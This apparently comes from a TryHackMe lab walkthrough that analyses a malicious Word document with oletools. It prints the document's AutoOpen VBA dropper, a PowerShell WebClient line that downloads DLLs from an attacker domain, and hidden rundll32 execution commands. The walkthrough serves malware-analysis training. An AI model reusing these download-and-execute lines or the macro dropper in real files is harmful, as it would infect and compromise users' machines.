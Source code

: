 # Try Hack Me - Squid Game, attacker 2

This is part 2 of a [5-part series of walkthroughs](../squid-game.md) for Try Hack Me's Squid Game room.

## 1. Identifying macros - oleid, olevba, oledump

*Q1 Provide the streams (numbers) that contain macros.*  
*Q2 Provide the size (bytes) of the compiled code for the second stream that contains a macro.*  
*Q3 Provide the largest number of bytes found while analyzing the streams.*  
*Q12 Under what stream did the main malicious script use to retrieve DLLs from the C2 domains? (Provide the name of the stream).*  

Following on from attacker 1, we can assume that we have the same situation - a .doc maldoc containing malicious VBA macros. Running [Oleid](https://github.com/decalage2/oletools/blob/master/oletools/doc/oleid.md) on the sample confirms the presence of VBA macros, and reports a number of features that indicate that they may be malicious : 

```console
remnux@remnux:~$ oleid attacker2.doc
...snip...
Filename: attacker2.doc
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description               
--------------------+--------------------+----------+--------------------------
...snip...
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
--------------------+--------------------+----------+--------------------------
...snip...
```

[Olevba](https://github.com/decalage2/oletools/wiki/olevba) gives more information on the potentially malicious activities taken by the discovered macros, including AutoOpen (a macro that runs automatiicaly when the document is opened), file system events, and calls to Shell and wscript.shell :

```console
remnux@remnux:~$ olevba attacker2.doc
...snip...
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |UserForm_Click      |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Binary              |May read or write a binary file (if combined |
|          |                    |with Open)                                   |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|wscript.shell       |May run an executable file or a system       |
|          |                    |command                                      |
...snip...
```

With [Oledump](https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py), we can identify which of the document's streams contain macros : 

```console
remnux@remnux:~$ oledump.py attacker2.doc 
...snip...
  9:      2220 'Macros/Form/o'
 10:       566 'Macros/PROJECT'
 11:        92 'Macros/PROJECTwm'
 12: M    6655 'Macros/VBA/Form'
 13: M   15671 'Macros/VBA/Module1'
 14: M    1593 'Macros/VBA/ThisDocument'
 15:     42465 'Macros/VBA/_VBA_PROJECT'
 16: M    2724 'Macros/VBA/bxh'
...snip...
```

If you're attempting the task questions, try the above command with the "-i" flag for full information on the size of each stream.

## 2. Initial macro analysis - oledump, olevba

*Q4 Find the command located in the ‘fun’ field.*  

Oledump also allows us to to export the discovered macros with the "-s" flag. Starting with streams 12 and 13, we find a pair of long, apparently legitimate functions for validating email addresses and working with mp3 files. These may have been included to reassure analysts that the macro's in the file have a legitimate function. Continuing to stream 14, we find the apparent entry point with the AutoOpen() subprocedure, which in turn makes a call to bxh.eFile : 

```console
remnux@remnux:~$ oledump.py -s 14 -v attacker2.doc
Sub AutoOpen()
    bxh.eFile
End Sub
```

We then find bxh.eFile in stream 16 :

```vb
Attribute VB_Name = "bxh"
Sub eFile()
    Dim QQ1 As Object
    Set QQ1 = New Form
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.t2.Caption
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))
    End
End Sub
```

The code here is lightly obfuscated, but can be deobfuscated easily enough manually (this refactor won't necessarily run, but does a good job in showing what the code is actually doing) :

```vb
Sub eFile()
    Dim formHandle As Object
    Set formHandle = New Form
    directory = "C:\ProgramData\"
    fileLocation = directory + "pin.vbs"
    formCaption = formHandle.t2.Caption
    MyFile = FreeFile
    Open fileLocation For Output As #MyFile
    Print #MyFile, formCaption
    Close #MyFile
    fun = Shell("cmd /k cscript.exe C:\ProgramData\pin.vbs", 0)
    End
End Sub
```

The basic strategy here is similar to that seen in attacker1's use of the AlternativeText property of a document object. In this case, the macro extracts the Caption text from a form "t2" included in the document and writes this text to a file `C:\ProgramData\pin.vbs`. The macro then makes a call to [Shell](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function) (a built-in function that can run an executable from a VBA script), using cmd.exe to call cscript.exe to run the Visual Basic script written to `C:\ProgramData\pin.vbs` (the "0" at the end of this call tells Shell not to spawn a terminal window when launching cmd.exe, reducing the likelihood of immediate detection).

So the obvious question - what is the text in the caption? Olevba and oledump can help us out here. Running olevba reveals the additional VBA code in the "Macros/Form/o" stream :

```console
remnux@remnux:~$ olevba attacker2.doc
...snip...
-------------------------------------------------------------------------------
VBA FORM STRING IN 'attacker2.doc' - OLE stream: 'Macros/Form/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
�Dim WAITPLZ, WS
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop
...snip...
```

The result is 39 lines of lightly obfuscated Visual Basic. We will go through this code step-by-step to have a better idea of what the malware is doing, but I've also [included it in full for reference](./attacker2.vbs).

## 3. Code analysis

*Q5 Provide the first domain found in the maldoc.*  
*Q6 Provide the second domain found in the maldoc.*  
*Q7 Provide the name of the first malicious DLL it retrieves from the C2 server.*  
*Q8 How many DLLs does the maldoc retrieve from the domains?*  
*Q9 Provide the path of where the malicious DLLs are getting dropped onto?*  
*Q10 What program is it using to run DLLs?*  
*Q11 How many seconds does the function in the maldoc sleep for to fully execute the malicious DLLs?*  

(The code snippets quoted here are cleaned up and deobfuscated for clarity - see the full version for the original code.)

The code starts by waiting for 4 seconds, but it isn't immediately clear why - the code isn't waiting for any actions to complete during this time :

```vb
WAITPLZ = DateAdd('s', 4, Now())
Do Until (Now() > WAITPLZ)
Loop
```

It then defines 5 obfuscated powershell commands "LL1" through "LL5". Once cleaned up, we see that these commands use the [WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) object to download a .dll from an attacker-controlled domain and save it to "C:\ProgramData\" :

```ps1
$FOOX = '(New-Object Net.WebClient).DownloadFile(''https://priyacareers.com/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';
IEX $FOOX | IEX;
```

The code then creates a 2. Creates a new [WScript.Shell](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function)
 object that it uses to execute each of the 5 obfuscated commands in powershell (the "0" at the end of the call to Shell.Run tells WScript to hide the terminal window when executing the command) : 

```vb
Set Shell = CreateObject("wscript.shell")
Shell.Run "powershell" + LL1, 0
Shell.Run "powershell" + LL2, 0
```

We then reach another waiting period to make sure that the 5 .dll downloads have completed. The script then defines 5 more commands that call cmd.exe, in turn calling [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32) to execute the newly download .dll files. It then executes these commands using the existing WScript.Shell instance :

```vb
OK1 = "cmd /c rundll32.exe C:\ProgramData\www1.dll,ldr"
Ran.Run OK1, 0
OK2 = "cmd /c rundll32.exe C:\ProgramData\www2.dll,ldr"
Ran.Run OK2, 0
```

This is as far as the analysis can go without the downloaded .dll files - we've discovered an IOC in the attacker-controlled domain, as well as like likely names and locations of additional samples (the 5 www*.dll files).
